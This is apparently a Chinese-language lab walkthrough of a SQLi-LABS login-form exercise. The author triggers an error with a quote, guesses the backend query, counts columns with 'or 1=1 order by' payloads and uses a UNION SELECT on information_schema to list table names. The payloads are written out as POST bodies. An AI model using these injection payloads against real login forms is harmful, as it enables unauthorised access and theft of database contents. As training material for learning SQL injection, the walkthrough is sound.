 + 尝试在username编辑框中输入**'admin**，然后就出现图中的错误。

![image-20210926165534419](../../images/SQLi-LABS/image-20210926165534419.png)

+ 现在我们可以猜出该SQL语句为：

```sql
select column1, ... from users where username = '$username' and password = '$password' limit 0, 1;
```

+ 接下来我们要完善我们猜测的SQL语句。目前我们只知道` and password = '$password' limit 0, 1;`前面的SQL语句还太清楚。

+ 首先先把`and password = '$password' limit 0, 1`注释掉，然后在注释前面输入payload。

```sql
# 错误
uname='or+1=1+order+by+8--+&passwd=admin&submit=Submit
# 错误
uname='or+1=1+order+by+4--+&passwd=admin&submit=Submit
# 正确
uname='or+1=1+order+by+2--+&passwd=admin&submit=Submit
```

+ 从上面的结果我们发现该查询只有两个字段。
+ 新增查询出当前使用的表是什么名称。

```sql
uname='union+select+database(),((select+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()))--+&passwd=admin&submit=Submit
```
